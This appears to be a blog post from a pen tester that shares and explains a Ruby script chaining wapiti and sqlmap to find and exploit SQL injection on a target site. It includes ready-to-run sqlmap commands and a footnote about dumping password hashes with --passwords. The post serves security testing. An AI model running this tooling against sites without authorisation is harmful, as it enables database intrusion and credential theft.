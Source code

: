 ```yaml
---
layout: post
title: "Fast SQLi Scanning and Beyond"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

Quite a bit of SQL injection going on in these past few weeks. Interesting how when you are doing something it seems like suddenly everyone[^0] is talking about it. Of course, SQLi is one of the [OWASP Top 10][OWASP], so it's pretty common to hear about. Now I have started to cook together some guides on my favorite SQLi automated tools in a 101 type of capacity, but I came across this, and it was just so cool that I am going to have to post it first, and come back to the one-o-one stuff later. What this script does in essence is connect [wapiti][wapiti] speed with the depth of [sqlmap][sqlmap]. Snazzy idea, great execution. The upshot of this little ruby snippet is a very very fast and fairly accurate sqli vulnerability finder, *and* suggested exploit paths, *and* potentially[^1] popping the DB right there. Nice!

So for the tl;dr[^2] crowd, here is the script, left mostly intact from [Volatile Minds][VM]. Big props for writing this, [Brandon][bdon]!

{% highlight ruby %}

#!/usr/bin/env ruby

## Requires wapiti, SQLMap
 
require 'active_support/secure_random'
require 'rexml/document'
 
puts "enter path to wapiti src: "
wapiti_path = gets
#wapiti_path = '/path/to/wapiti/trunk/src/'

puts "enter path to sqlmap: "
sqlmap_path = gets
#sqlmap_path = '/path/to/sqlmap/'
 
wapiti_report_path = '/tmp/wapiti_report_' + SecureRandom.uuid + '.xml'
 
remote_host = ARGV[0]
 
p "Running wapiti..."
`#{wapiti_path}wapiti.py #{ARGV[0]} -f xml -o #{wapiti_report_path}`
 
p "Report saved to #{wapiti_report_path}"
 
p "Parsing results"
 
results = []
 
report = ::File.open(wapiti_report_path, "rb")
doc = REXML::Document.new report.read
 
doc.elements.each('/report/bugTypeList/bugType') do |element|
        bug_type = element.attributes["name"]
 
        next if bug_type != "SQL Injection"
 
        p "Parsing " + bug_type
 
        result = {}
        element.elements.each("bugList/bug") do |bug|
                result[:type] = bug_type
               
                bug.elements.each do |child|
                        if child.name == "url"
                                result[:url] = child.text
                        elsif child.name == "parameter"
                                result[:parameter] = child.text
                        end
                end
                results << result
                result = {}
        end
end
 
results.each do |result|
        next if result[:type] !~ /SQL Injection/
        p "Running sqlmap"
       
        if result[:url].index(result[:parameter])
                url = result[:url].gsub("%BF%27%22%28", "abcd")
       
                params = result[:url].split("?")[1].split("&")
 
                skipped_params = []
                params.each do |param|
                        skipped_params << param.split("=")[0] if not param.index("%BF%27%22%28")
                end
                       
                p "Running GET sql injection test on url: " + url
                sqlmap_command = "#{sqlmap_path}sqlmap.py -u \"#{url}\" --smart --skip=\"#{skipped_params.join(",")}\" --technique=EUS --flush-session --fresh-queries --level=2 --batch"
                out = `#{sqlmap_command}`
                printf out
        else
                url = result[:url]
                p "Running POST sql injection test on url: " + url
                p "With data: " + result[:parameter]
 
                parameter = result[:parameter].gsub("%BF%27%22%28", "abcd")
 
                params = result[:parameter].split("&")
 
                skipped_params = []
                params.each do |param|
                        skipped_params << param.split("=")[0] if not param.index("%BF%27%22%28")
                end
 
                sqlmap_command = "#{sqlmap_path}sqlmap.py -u \"#{url}\" --data=\"#{parameter}\"  --skip=\"#{skipped_params.join(",")}\" --smart --technique=EUS --flush-session --fresh-queries --level=2 --batch"
                p sqlmap_command
                sqlmap_output = `#{sqlmap_command}`
               
                printf sqlmap_output
        end
end
{% endhighlight %}

You can pretty much run it as is[^3], if you can read the code enough to make the few basic alterations you need. It takes one argument, the site you want to hit. Now we can take this apart and see how it works.

You need to specify in the script the path to your tools. Why security tools cannot be written to run from bin in your standard PATH will have to wait for another rant. I added that little bit that will ask you for your fully qualified path to these tools. Useful for first time running, comment out and hardcode it in for extended use. Just don't forget and move your tools to a new location! Basically it runs a wapiti command like this:


{% highlight bash %}
wapiti.py http://example.com/ -f xml -o /tmp/wapiti_report_randomstuff.xml
{% endhighlight %}
    
Which basically just turns wapiti onto a site and saves the output to xml. Alrighty. It then performs some ruby fu, parses out the potentially vulnerable urls and injection points, decides if it is a GET or POST, and the passes it to sqlmap. Sqlmap then runs a couple of tests on the injection point, either classic GET, or a POST, depending on the vulnerability that wapiti has identified. It does this for every vulnerability that wapiti finds, too. So all that sqlmap helpfulness is available to us at every potential injection point. Sounds like a dream. The commands look like this for the interested, this is the GET one. The POST version is similar.

{% highlight bash %}
sqlmap.py -u http://example.com/?id=1 --smart --skip=skip,this,one --technique=EUS --flush-session --fresh-queries --level=2 --batch
{% endhighlight %}

It will kindly kick out the results to stdin. Of course if you like to save these kinds of things (like for evidence logs in a pen test) you can always pipe it out somewhere. So like I said. Slick.

Of course these comments on this script are totally valid:

* But I love using sqlmap to scan for stuff! Cool. Go with what works for you.
* There are so many more options, this script just limits these programs. You are right. This tool is built for speed and hits stuff with hammers. Pen testing surgeons should come back later.
* My grandaddy taught me to only exploit SQLi by hand! Again, whatever works. I am just trying to use this tool to add value to my tests by automating discovery.

For a wrapup, I certainly enjoyed using this script, hope y'all do to. I will be adding it to my trove of similar hacks that smart people put together so that I can be a little more lazy.

***
[^0]: Ok probably not everyone.
[^1]: Disclaimer, you would have to edit the query in the code to actually pop the databases and not just confirm. Also, this is probably a terrible idea... maybe... trying to talk myself out of trying it... `--passwords`
[^2]: I know you are out there
[^3]: If I hear from alot of people that they don't have the required portions, I may detail where/how to get them

[bdon]: https://twitter.com/#!/BrandonPrry
[wapiti]: http://wapiti.sourceforge.net/
[sqlmap]: http://sqlmap.sourceforge.net/
[OWASP]: https://www.owasp.org/index.php/Top_10_2010
[VM]: http://volatile-minds.blogspot.com/